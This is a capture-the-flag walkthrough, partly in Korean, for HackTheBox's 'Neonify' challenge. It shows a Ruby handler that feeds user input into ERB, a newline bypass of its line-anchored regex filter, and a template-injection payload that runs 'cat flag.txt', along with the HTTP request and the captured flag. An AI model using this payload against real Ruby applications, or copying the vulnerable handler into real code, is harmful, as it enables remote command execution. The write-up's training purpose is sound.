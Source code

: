 
# HackTheBox Walkthrough - Room: Neonify

**Target IP**: 94.237.57.211:56108  
**Difficulty**: Medium  
**Objective**: Bypass input filtering to perform Ruby ERB template injection and capture the flag.

---

## 🧭 Initial Analysis

### 🌐 웹 페이지 정보

- 입력 폼만 존재, 값을 입력하면 그대로 다시 출력됨
- 특수문자 입력 시 `"Malicious Input Detected"` 메시지 표시됨

---

## 🔍 소스 코드 분석

```ruby
post '/' do
  if params[:neon] =~ /^[0-9a-z ]+$/i
    @neon = ERB.new(params[:neon]).result(binding)
  else
    @neon = "Malicious Input Detected"
  end
  erb :'index'
end
```

- `ERB.new(...).result(binding)` → **템플릿 인젝션 (RCE 가능)**
- 하지만 정규식 필터링 `/^[0-9a-z ]+$/i` 로 특수문자는 제한됨

---

## 💡 필터 우회 기법

- 정규식 `/^[0-9a-z ]+$/i` 는 첫 줄만 필터링
- `\n` (개행) 이후는 검사하지 않음 → 우회 가능

### ✅ 입력 예시

```
neon=temp
<%= 7 * 7 %>
```

> 필터링됨 → `Malicious Input Detected`

---

### ✅ 필터 우회 페이로드

```text
neon=temp
<%=%x'cat flag.txt'%>
```

→ 개행(`\n`)을 통해 첫 줄은 필터 통과  
→ `ERB`는 아래 줄의 코드를 실행하게 됨

---

## 📤 HTTP 요청 예시

```http
POST / HTTP/1.1
Host: 94.237.57.211:56108
Content-Type: application/x-www-form-urlencoded

neon=temp
<%=%x'cat flag.txt'%>
```

---

## ✅ 플래그 출력 결과

HTML 응답에서 다음과 같이 출력됨:

```html
<h1 class="glow">temp
HTB{r3pl4c3m3n7_s3cur1ty}</h1>
```

🎉 **플래그 획득 성공!**

---

## 🧠 기술 요약

| 기술                     | 설명                                                      |
|--------------------------|-----------------------------------------------------------|
| ERB Template Injection   | Ruby의 템플릿 처리 함수에 사용자 입력이 직접 전달됨           |
| 정규식 우회              | `/^[a-z0-9 ]+$/i` 필터를 개행 문자로 우회 가능                |
| Ruby Shell Execution     | `<%= %x'command' %>` 구문을 통해 시스템 명령 실행             |

---

## 🎯 최종 결과

- **플래그**: `HTB{r3pl4c3m3n7_s3cur1ty}`
- **획득 방법**: ERB Template Injection + Regex Bypass + Ruby Shell Execution

---

## 📚 참고 자료

- https://exploit-notes.hdks.org/exploit/web/framework/ruby/ruby-on-rails-pentesting/  
- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/  
- https://www.writesoftwarewell.com/call-shell-commands-in-ruby/
